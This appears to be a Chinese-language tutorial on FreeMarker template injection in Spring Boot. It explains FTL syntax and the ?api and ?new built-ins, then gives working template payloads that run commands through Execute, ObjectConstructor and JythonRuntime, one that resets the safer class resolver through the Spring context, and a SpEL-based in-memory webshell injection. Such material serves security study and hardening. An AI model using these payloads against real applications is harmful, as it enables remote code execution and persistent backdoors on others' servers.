




`Freemarker`也是`SpringBoot`官方支持的模板引擎之一

官方文档👉`https://freemarker.apache.org/`

`Template + data-model = output`



下面maven坐标对应的freemarker版本为2.3.32

```xml
<parent>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-parent</artifactId>
    <version>2.7.17</version>
</parent>
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-freemarker</artifactId>
</dependency>
```

# Intro

* 插值语法

使用插值语法（**interpolation**）来输出数据，即`${...}`

数值型插值：`#{7*7}`

* FTL标签

`FreeMarker`提供了类似HTML的标签 —— `FTL标签`，标签名字以`#`开头

```html
<#if condition>
    xxx
<#else>
    yyy
</#if>
    
<#list sequence as loopVariable>
    repeatThis
</#list>

<#include "../../../flag">
<#-- 会进行路径规范化，无法目录穿越读文件 -->

<#assign name1=value1 name2=value2 ... nameN=valueN>
<#-- 赋值语法 -->
```

* 内置函数

## ?api

`value?api.someJavaMethod()`或`value?api.someBeanProperty`

FreeMarker 2.3.22 开始支持，需要通过`Configurable.setAPIBuiltinEnabled(true)`或设置`api_builtin_enabled`（默认为false）

并不是所有值都支持`?api`，自定义的`TemplateModel`(实现了`freemarker.template.TemplateModelWithAPISupport`接口)可以支持`?api`

可以通过`value?has_api`来检测一个值是否支持`?api`

此外，`freemarker.ext.beans`下有一个配置文件`unsafeMethods.properties`，限制了一些常见敏感方法的调用



2.3.30加入`java.security.ProtectionDomain.getClassLoader()`

## new

用于实例化一个实现了`freemarker.template.TemplateMethodModel`接口的类，调用其构造器并返回一个变量。

2.3.17开始，可以通过`Configuration.setNewBuiltinClassResolver(TemplateClassResolver.XXX)` 	  或设置 `new_builtin_class_resolver` 来限制这个内建函数对类的访问，官方提供了三个预定义的类解析器（`TemplateClassResolver`接口下有）

- **UNRESTRICTED_RESOLVER**：简单地调用`ClassUtil.forName(String)`。
- **SAFER_RESOLVER**：和第一个类似，但禁止解析`ObjectConstructor`，`Execute`和`JythonRuntime`。
- **ALLOWS_NOTHING_RESOLVER**：禁止解析任何类。

```yaml
spring:
  freemarker:
    cache: false
    settings:
      apiBuiltinEnabled: true
      new_builtin_class_resolver: safer
```

### `freemarker.template.utility.Execute`

类描述还贴心地说明了这个类的危险性



```html
<#assign ex="freemarker.template.utility.Execute"?new()>
${ex("calc")}
```

### `freemarker.template.utility.ObjectConstructor`



实例化任意类

```html
<#assign con="freemarker.template.utility.ObjectConstructor"?new()>
${con("java.lang.ProcessBuilder","calc").start()}
```

### `freemarker.template.utility.JythonRuntime`

能够执行python代码，默认没有jython依赖，需要引入

```xml
<dependency>
    <groupId>org.python</groupId>
    <artifactId>jython</artifactId>
    <version>2.7.2</version>
</dependency>
```

```html
<#assign value="freemarker.template.utility.JythonRuntime"?new()>
<@value>import os;os.system("calc")</@value>
```

# 关闭安全类解析器

发现`FreeMarkerView`是`AbstractTemplateView`子类，因此我们在模板中可以获取到Spring的宏变量`springMacroRequestContext`，接着获取注册到AOP容器中的`Configuration`模板配置对象，再调用`setNewBuiltinClassResolver`设置类解析器为普通的类解析器。

```html
<#assign ac=springMacroRequestContext.webApplicationContext>
<#assign fc=ac.getBean('freeMarkerConfiguration')>
<#assign dcr=fc.getDefaultConfiguration().getNewBuiltinClassResolver()>
<#assign VOID=fc.setNewBuiltinClassResolver(dcr)>
${"freemarker.template.utility.Execute"?new()("calc")}
```

# 内存马注入

可以通过Spel表达式来注入

```html
<#assign con="freemarker.template.utility.ObjectConstructor"?new()>
<#assign expr="T(org.springframework.cglib.core.ReflectUtils).defineClass('EvilInterceptor',T(org.springframework.util.Base64Utils).decodeFromString('base64ClassBytes'),T(java.lang.Thread).currentThread().getContextClassLoader()).newInstance()">
${con("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression(expr).getValue()}
```